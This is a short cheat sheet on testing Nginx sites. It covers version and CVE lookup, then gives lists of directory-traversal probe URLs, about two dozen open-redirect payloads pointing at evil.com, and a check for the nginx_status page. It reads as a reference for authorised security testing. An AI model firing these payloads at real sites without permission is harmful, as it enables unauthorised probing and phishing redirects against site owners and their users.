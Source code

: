 # Nginx Common Bugs

## Introduction
What would you do if you came across a website that uses Nginx?

## How to Detect
Usually in the HTTP response there is a header like this `Server: nginx`

1. Find the related CVE by checking nginx version
* How to find the nginx version

By checking the response header or using 404 page, sometimes the version is printed there. If you found outdated nginx version, find the CVEs at [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-315/product_id-101578/F5-Nginx.html)

2. Directory traversal
```
https://example.com/folder1../folder1/folder2/static/main.css
https://example.com/folder1../%s/folder2/static/main.css
https://example.com/folder1/folder2../folder2/static/main.css
https://example.com/folder1/folder2../%s/static/main.css
https://example.com/folder1/folder2/static../static/main.css
https://example.com/folder1/folder2/static../%s/main.css
```

3. Open redirect
This is because of misconfiguration
```
https://example.com/%5cevil.com
https://example.com////\;@evil.com
https://example.com////evil.com
https://example.com///evil.com
https://example.com///evil.com/%2f%2e%2e
https://example.com///evil.com@//
https://example.com///{{RootURL}}evil.com/%2f%2e%2e
https://example.com//;@evil.com
https://example.com//\/evil.com/
https://example.com//\@evil.com
https://example.com//\evil.com
https://example.com//\tevil.com/
https://example.com//evil.com/%2F..
https://example.com//evil.com//
https://example.com//evil.com@//
https://example.com//evil.com\tevil.com/
https://example.com//https://evil.com@//
https://example.com/<>//evil.com
https://example.com/\/\/evil.com/
https://example.com/\/evil.com
https://example.com/\evil.com
https://example.com/evil.com
https://example.com/evil.com/%2F..
https://example.com/evil.com/
https://example.com/evil.com/..;/css
https://example.com/https:evil.com
```

4. Nginx status page
```
https://example.com/nginx_status
```
